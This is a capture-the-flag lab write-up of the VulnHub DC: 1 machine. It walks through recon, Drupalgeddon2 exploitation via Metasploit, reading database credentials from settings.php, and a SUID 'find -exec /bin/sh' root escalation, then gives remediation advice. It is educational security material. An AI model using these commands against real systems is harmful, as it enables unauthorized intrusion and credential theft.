










# DC: 1 — VulnHub VAPT Walkthrough

A hands-on penetration test of **DC: 1**, a beginner-to-intermediate VulnHub boot2root machine, chained from unauthenticated remote code execution on a vulnerable Drupal CMS through to full root compromise via SUID binary abuse.

**Target:** DC: 1 (VulnHub)
**Attacker:** Kali Linux (VMware Workstation)
**Objective:** Gain unauthorized access, escalate privileges to root, and capture all flags
**Techniques used:** Network reconnaissance, CVE research, Metasploit exploitation, credential harvesting, SUID binary privilege escalation

---

## Environment Setup

- **Attacker VM:** Kali Linux 2025.4 (VMware Workstation)
- **Target VM:** DC: 1 (Debian-based, running Drupal 7)
- **Network mode:** NAT (both VMs on the same virtual subnet for isolated lab testing)

---

## 1. Reconnaissance — Host Discovery

Before anything else, the target's IP had to be identified on the virtual network. `arp-scan` was used to sweep the local subnet and identify the newly-booted DC1 host.

```bash
arp-scan -l
```



DC1 was identified at `192.168.150.130`.

---

## 2. Reconnaissance — Port & Service Enumeration

With the target IP confirmed, an `nmap` service scan was run to identify open ports and running services.

```bash
nmap -sV 192.168.150.130
```



**Findings:**

| Port | Service | Version |
|------|---------|---------|
| 22   | SSH     | OpenSSH 6.0p1 Debian 4+deb7u7 |
| 80   | HTTP    | Apache httpd 2.2.22 (Debian) |
| 111  | RPC     | rpcbind 2-4 |

Port 80 was the immediate focus — a web application worth investigating further.

---

## 3. Vulnerability Research

Browsing to the web root revealed a **Drupal** CMS installation. Version fingerprinting via `CHANGELOG.txt` confirmed a Drupal 7.x build. `searchsploit` was used to identify known, weaponized vulnerabilities for this version.

```bash
searchsploit drupal 7
```



This confirmed the target was vulnerable to **Drupalgeddon2 (CVE-2018-7600)** — an unauthenticated remote code execution vulnerability affecting Drupal < 7.58, with a ready Metasploit module available.

---

## 4. Exploitation — Drupalgeddon2 (CVE-2018-7600)

The Metasploit module for Drupalgeddon2 was selected and configured against the target.

```bash
msfconsole
search drupalgeddon2
use exploit/unix/webapp/drupal_drupageddon2
show options
```



**RHOSTS** was set to the target IP and available payloads were reviewed before execution.

```bash
set RHOSTS 192.168.150.130
show payloads
```



Running the exploit returned a working shell on the target as the low-privileged web server user, `www-data` — confirming successful unauthenticated RCE.

---

## 5. Post-Exploitation — Credential Harvesting

With initial foothold established, Drupal's configuration file was inspected for stored credentials — a common misconfiguration where database secrets are left readable in plaintext.

```bash
cd /var/www/sites/default
cat settings.php
```



The file exposed valid MySQL credentials (`dbuser` / `R0ck3t`) for the `drupaldb` database, along with an embedded comment hinting that brute-forcing and dictionary attacks were not the only intended path forward — a clue pointing toward credential reuse or further lateral movement.

---

## 6. Enumeration — Flags & Filesystem Clues

Further enumeration of the web root uncovered the first flag and Drupal's directory documentation, confirming the intended path of the challenge (CMS config file discovery).

```bash
cd /var/www
cat flag1.txt
cd sites
cat README.txt
```



`flag1.txt` hinted directly at the CMS configuration file as the next objective — validating the credential discovery from the previous step.

---

## 7. Privilege Escalation — SUID Binary Enumeration

To identify a path from `www-data` to root, the filesystem was searched for binaries with the SUID bit set — files that execute with the privileges of their owner (often root) regardless of who runs them.

```bash
find / -perm -4000 -type f 2>/dev/null
```



Among the standard system binaries, `/usr/bin/find` stood out — `find` is a well-documented [GTFOBins](https://gtfobins.github.io/gtfobins/find/) privilege escalation vector when it carries the SUID bit, since its `-exec` flag can spawn an arbitrary shell that inherits the SUID owner's privileges.

---

## 8. Privilege Escalation — Exploiting SUID `find`

Since `find` itself was SUID-root, it could be abused directly to spawn a root-owned shell using its built-in `-exec` capability:

```bash
find . -exec /bin/sh \; -quit
```



The shell prompt changed from `www-data@DC-1` to `#`, confirming a successful escalation to **root**.

---

## 9. Proof of Compromise

Root access was confirmed and the filesystem inspected to close out the engagement.

```bash
whoami
id
ls -la
```



Full root compromise of DC: 1 confirmed.

---

## Summary of Findings

| # | Finding | Severity | Root Cause |
|---|---------|----------|------------|
| 1 | Unauthenticated Remote Code Execution (CVE-2018-7600 / Drupalgeddon2) | Critical | Outdated, unpatched Drupal 7.x core |
| 2 | Plaintext database credentials in `settings.php` | Medium | Insecure default CMS configuration, world-readable secrets |
| 3 | SUID bit set on `/usr/bin/find` | High | Misconfigured file permissions allowing arbitrary root shell via GTFOBins technique |

## Remediation Recommendations

- **Patch Drupal** to the latest supported version; Drupal 7.x is end-of-life and should be migrated off entirely.
- **Restrict file permissions** on configuration files containing credentials; avoid storing plaintext secrets in web-readable paths.
- **Remove unnecessary SUID bits** from binaries like `find` that have well-documented privilege escalation techniques (see GTFOBins) unless explicitly required.
- **Apply least-privilege principles** across all service accounts and file permissions.

---

## Tools Used

- `arp-scan` — host discovery
- `nmap` — service enumeration
- `searchsploit` — vulnerability research
- `Metasploit Framework` — exploitation (Drupalgeddon2)
- `find` — SUID enumeration and privilege escalation

---

*This walkthrough documents a penetration test performed against an intentionally vulnerable VulnHub machine in an isolated lab environment for educational purposes.*
